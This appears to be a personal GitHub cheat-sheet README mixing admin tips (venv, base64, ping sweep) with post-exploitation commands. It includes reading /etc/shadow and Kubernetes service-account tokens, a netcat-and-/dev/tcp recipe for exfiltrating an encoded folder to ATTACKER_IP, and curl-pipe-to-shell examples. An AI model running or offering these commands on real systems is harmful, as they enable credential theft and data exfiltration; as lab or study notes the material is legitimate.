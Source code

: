 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 

    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
---
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

who
last
sudo journalctl -u ssh --since "200 days ago"
sudo cat /var/log/auth.log | grep "Failed password"
history

sudo netstat -tulnp
sudo ss -tulwn
sudo netstat -anp | grep ESTABLISHED
sudo journalctl -u ssh | grep "Accepted"

ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts 💩
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/bashscript.sh | sh

### BASE64 
--- 

Convert to Base64

    [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("roman"))      

Results:

	cm9tYW4=

Decode from Base64

    [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('cm9tYW4='))

Results:

	Roman
